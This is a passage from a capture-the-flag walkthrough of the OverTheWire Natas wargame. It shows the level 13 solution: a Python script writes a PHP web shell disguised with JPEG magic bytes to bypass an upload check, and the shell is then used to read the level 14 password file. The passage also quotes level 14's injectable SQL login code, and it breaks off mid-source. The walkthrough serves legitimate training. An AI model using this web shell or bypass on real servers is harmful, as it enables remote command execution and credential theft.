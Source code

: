 Try to bypass `exif_imagetype`: create a Python script that creates a `shell.php` with the desired JPEG image bytes:

```python
fh = open('shell.php', 'wb')
fh.write(b'\xFF\xD8\xFF\xE0' + b'<? passthru($_GET["cmd"]); ?>')
fh.close()
```

This gives us a `shell.php` that we can try to upload.

Do not forget to edit the file extension in the client-side code!

We are able to upload the `.php` file:

> The file upload/s81yasyzvd.php has been uploaded

Go to natas13.natas.labs.overthewire.org/upload/s81yasyzvd.php?cmd=cat /etc/natas_webpass/natas14:

```
z3UYcr4v4uBpeX8f7EZbMHlzK4UR2XtQ
```

## Natas 14

### Credentials

Username: natas14

Password: z3UYcr4v4uBpeX8f7EZbMHlzK4UR2XtQ

URL: http://natas14.natas.labs.overthewire.org

### Message

Username: ...

Password: ...

### Solution

Source code (link):

```html
<html>
<head>
<!-- This stuff in the header has nothing to do with the level -->
<link rel="stylesheet" type="text/css" href="http://natas.labs.overthewire.org/css/level.css">
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/jquery-ui.css" />
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/wechall.css" />
<script src="http://natas.labs.overthewire.org/js/jquery-1.9.1.js"></script>
<script src="http://natas.labs.overthewire.org/js/jquery-ui.js"></script>
<script src=http://natas.labs.overthewire.org/js/wechall-data.js></script><script src="http://natas.labs.overthewire.org/js/wechall.js"></script>
<script>var wechallinfo = { "level": "natas14", "pass": "<censored>" };</script></head>
<body>
<h1>natas14</h1>
<div id="content">
<?php
if(array_key_exists("username", $_REQUEST)) {
    $link = mysqli_connect('localhost', 'natas14', '<censored>');
    mysqli_select_db($link, 'natas14');

    $query = "SELECT * from users where username=\"".$_REQUEST["username"]."\" and password=\"".$_REQUEST["password"]."\"";
    if(array_key_exists("debug", $_GET)) {
        echo "Executing query: $query<br>";
    }

```
